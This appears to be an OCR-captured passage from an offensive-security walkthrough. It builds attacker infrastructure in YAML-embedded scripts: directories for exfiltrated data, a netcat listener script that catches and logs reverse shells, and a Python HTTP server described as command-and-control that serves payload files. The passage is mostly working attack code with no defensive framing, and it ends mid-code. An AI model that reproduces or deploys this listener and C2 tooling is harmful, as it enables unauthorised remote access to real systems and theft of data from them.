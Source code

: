 this creates directories for storing exfiltrated data and shell session logs. we also have to make sure that netcat is available for establishing reverse shells.

since we're trying to spawn a reverse shell, let's add some logging and fallback options.

```yaml
          cat > /payloads/shell_logger.sh << 'EOT'
          #!/bin/bash
          PORT=$1
          LOG_FILE="/payloads/shells/shell_${PORT}_$(date +%s).log"
          
          echo "Starting listener on port $PORT, logging to $LOG_FILE"
          echo "Listener started at $(date)" > $LOG_FILE
          
          # First try with netcat-traditional (GNU netcat) which supports -e
          if command -v nc.traditional &> /dev/null; then
              echo "Using nc.traditional on port $PORT" | tee -a $LOG_FILE
              nc.traditional -l -p $PORT -v 2>&1 | tee -a $LOG_FILE
```

this should support multiple variants and create timestamped log files for each connection.

to set up our C2 functions, we'll run a simple python HTTP server.

```yaml
# Create a basic HTTP server that logs more information
          cat > /payloads/server.py << 'EOT'
          #!/usr/bin/env python3
          #!/usr/bin/env python3
          import http.server
          import socketserver
          import os
          import cgi
          import json
          import base64
          from datetime import datetime

          PORT = 8080
          UPLOAD_DIR = "/payloads/uploads"

          os.makedirs(UPLOAD_DIR, exist_ok=True)

          class CustomHTTPRequestHandler(http.server.BaseHTTPRequestHandler):
              def _set_headers(self, status_code=200, content_type='text/html'):
                  self.send_response(status_code)
                  self.send_header('Content-type', content_type)
                  self.end_headers()
              
              def do_GET(self):
                  print(f"[{datetime.now()}] GET request received: {self.path}")
                  
                  if self.path == '/':
                      self.path = '/index.html'
                  
                  try:
                      file_path = f"/payloads{self.path}"
                      if os.path.exists(file_path) and os.path.isfile(file_path):
                          with open(file_path, 'rb') as file:
                              self._set_headers(200)
                              self.wfile.write(file.read())
                          print(f"[{datetime.now()}] Served file: {file_path}")
                      else:
                          self._set_headers(404)
                          self.wfile.write(b"File not found")
                          print(f"[{datetime.now()}] File not found: {file_path}")
                  except Exception as e:
```